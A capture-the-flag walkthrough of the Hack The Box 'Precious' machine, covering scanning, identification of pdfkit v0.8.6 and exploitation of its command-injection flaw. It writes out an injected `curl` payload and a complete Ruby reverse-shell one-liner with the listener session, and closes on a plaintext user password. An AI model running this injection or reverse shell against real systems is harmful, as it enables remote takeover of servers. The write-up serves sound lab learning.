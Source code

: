 # [Precious](https://app.hackthebox.com/machines/Precious)

## Overview

- Linux machine
- Easy

## Scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 10:54 EST
Nmap scan report for 10.10.11.189
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://precious.htb/
```

## Analysis

http request:

![homepage.png](./img/homepage.png)

start a http server using python:

```bash
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8
10.10.11.189 - - [21/Feb/2023 09:34:57] "GET / HT
```

Post my ip address => browser start downloading a pdf file:

![getpdf.png](./img/getpdf.png)

analysis the downloaded pdf file:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ exiftool v9kl5z210dbx1pwnb2vv3kec8wytjedl.pdf 
ExifTool Version Number         : 12.55
File Name                       : v9kl5z210dbx1pwnb2vv3kec8wytjedl.pdf
Directory                       : .
File Size                       : 36 kB
File Modification Date/Time     : 2023:02:20 12:33:11-05:00
File Access Date/Time           : 2023:02:20 12:33:11-05:00
File Inode Change Date/Time     : 2023:02:20 12:33:11-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

## pdfkit and vulnerabilities

pdfkit create PDFs using plain old HTML+CSS. Uses wkhtmltopdf on the back-end which renders HTML using Webkit.

vulnerability: [Command Injection Affecting pdfkit package, versions <0.8.7.2](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

## exploit pdfkit vulnerability

each time i send this request, my python http server receives a request too:

```http
POST / HTTP/1.1
Host: precious.htb

url=http%3a%2f%2fexample.com%2f%3fname%3d%2520%60curl%2010.10.14.4%60

______________________________
decoded payload: url=http://example.com/?name=`curl 10.10.14.4`
```

![poc.png](./img/poc.png)

=> command injection ok

start netcat listen on port 4242, then injection a ruby payload that create a reverse shell:

- payload: `ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.4","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'` from payloads all the things

- result:

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ nc -lvp 4242
  listening on [any] 4242 ...
  connect to [10.10.14.4] from precious.htb [10.10.11.189] 44834
  whoami
  ruby
  ```

## find first flag

```bash
find / -name "user.txt"
/home/henry/user.txt
ls -l /home/henry/user.txt
-rw-r----- 1 root henry 33 Feb 20 10:52 /home/henry/user.txt

```
henry:Q3c1AqGHtoI0aXAYFH